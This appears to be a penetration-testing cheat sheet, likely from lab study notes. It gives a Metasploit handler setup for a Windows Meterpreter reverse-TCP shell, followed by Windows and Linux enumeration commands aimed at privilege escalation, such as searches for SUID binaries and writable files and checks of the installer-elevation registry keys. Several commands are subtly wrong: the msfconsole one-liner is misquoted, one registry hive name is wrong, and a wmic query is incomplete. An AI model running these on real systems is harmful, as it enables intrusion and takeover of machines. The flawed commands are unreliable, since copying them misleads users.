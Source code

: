 ```sh
msfconsole -x "use exploit/multi/handler"; set RHOST 192.168.194.10; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.194; set LPORT 5555;
```

or

```sh
sudo msfconsole
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST 192.168.119.194
> set LPORT 5555
> run
```

## Device enumeration

### Useful commands for windows clients:
- View user info: `net user`
- View system info: `systeminfo`
- View routing information: `route print`
- View running services: `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
- View active network connections: `netstat -ano`
- View current firewall profile: `netsh advfirewall show currentprofile`
    - View all firewall rules: `netsh advfirewall show rule name=all`
- View scheduled tasks: `schtasks /query /fo LIST /v`
- View all installed application with version: `wmic product get name, version, vendor`
    - View system wide updates: `wmic qfe Caption, Description, HotFixID, InstalledOn`
- View any file that can be modified by anyone using **powershell**: `Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- List all drives that are mounted and non-mounted: `mountvol`
- Gather kernel information in **powershell**: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Node', Path`
- Gather driver versions ie. vmware: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*Vmware*"}`
- Checking if we can run any windows installer with elevated priviledges: 
    - `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
    - `reg query HKEY_CURRENT_MACHINE\Software\Policies\Microsoft\Windows\Installer`


### For linux client, commands that can be used:
- View all processes: `ps axu`
- Check all TCP/IP configurations: `ip a`
- Display network routing table: `/sbin/route`
- Display active network connections: `ss -anp`
- View scheduled tasks: `ls -lah /etc/cron*`
    - Crontab: `cat /etc/crontab`
- Listing installed packages: `dpkg -l`
- Find all directories writable by current user: `find / -writable -type d 2>/dev/null`
- List all mounted file systems: `mount`
    - static file system: `cat /etc/fstab` 
    - All available disks: `/bin/lsblk`
- Loaded kernel modules: `lsmod`
    - Find out more about module: `/sbin/modinfo <module_name>`
- Find any binaries that can be run as root: `find / -perm -u=s -type f 2>/dev/null`
